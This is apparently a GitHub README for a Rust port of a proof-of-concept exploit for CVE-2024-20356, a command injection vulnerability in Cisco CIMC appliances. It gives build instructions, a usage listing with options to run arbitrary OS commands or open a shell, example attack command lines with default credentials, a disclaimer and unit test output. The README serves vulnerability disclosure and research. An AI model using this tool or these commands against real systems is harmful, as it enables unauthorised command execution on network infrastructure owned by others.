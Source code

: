 # CVE-2024-20356
This is a proof of concept for CVE-2024-20356, a Command Injection vulnerability in Cisco's CIMC.

Written by Aaron and Oxidised by SherllyNeo

Full technical details can be found at [https://labs.nettitude.com/blog/cve-2024-20356-jailbreaking-a-cisco-appliance-to-run-doom](https://labs.nettitude.com/blog/cve-2024-20356-jailbreaking-a-cisco-appliance-to-run-doom)

## Install
```bash
cargo build --release && cp ./target/release/CVE_2024_20356 ~/.local/bin/
```

## Usage
```bash
Usage: CVE_2024_20356 [OPTIONS] --host <HOSTNAME>

Options:
  -t, --host <HOSTNAME>      Target hostname or IP address (format 10.0.0.1 or 10.0.0.2:1337)
  -u, --username <USERNAME>  Username [default: admin]
  -p, --password <PASSWORD>  Password [default: cisco]
  -a, --action <ACTION>      Action to perform [default: test] [possible values: test, cmd, shell, dance]
  -c, --cmd <CMD>            OS command to run [default: None]
  -v, --verbose              Displays more information about cimc
  -h, --help                 Print help
  -V, --version              Print version
```

Example commands:
```bash
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -v
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -c 'id'
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -a shell
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -a dance
```

Use the `--help` argument for full usage instructions.

## Disclaimer
This proof-of-concept is for demonstration purposes and should not be used for illegal activities. LRQA Nettitude are not responsible for any damage caused by the use or misuse of this code.
Don't be evil

## Tests
I wrote this without access to the server based on the [original code base](https://github.com/nettitude/CVE-2024-20356/blob/main/CVE-2024-20356.py).

Due to this I wrote extensive unit tests to ensure that the encryption functions match up with those found in the original.
That the login method works using a mock server.
That the arguement parsing works for IP addresses.

to run these tests, use cargo --test
```bash
cargo test 
   Compiling CVE_2024_20356 v0.1.0 
    Finished `test` profile [unoptimized + debuginfo] target(s) in 2.27s 
     Running unittests src/main.rs (target/debug/deps/CVE_2024_20356-6d8ec478cd93405b) 
running 8 tests 
test libs::encryption::tests::pad_test ... ok 
test libs::encryption::tests::key_fnv32_test ... ok 
test libs::encryption::tests::aes_encrypt_test ... ok 
test libs::encryption::tests::derive_key_and_iv_test ... ok 
test libs::encryption::tests::hash_fnv32_test ... ok 
test libs::encryption::tests::encrypt_test ... ok 
test libs::actions::tests::login_test ... ok 
test libs::arguments::validate_hostname_test ... ok 
test result: ok. 8 passed; 0 failed; 0 ignored; 0 measured; 0 filtered out; finished in 0.02s 

```


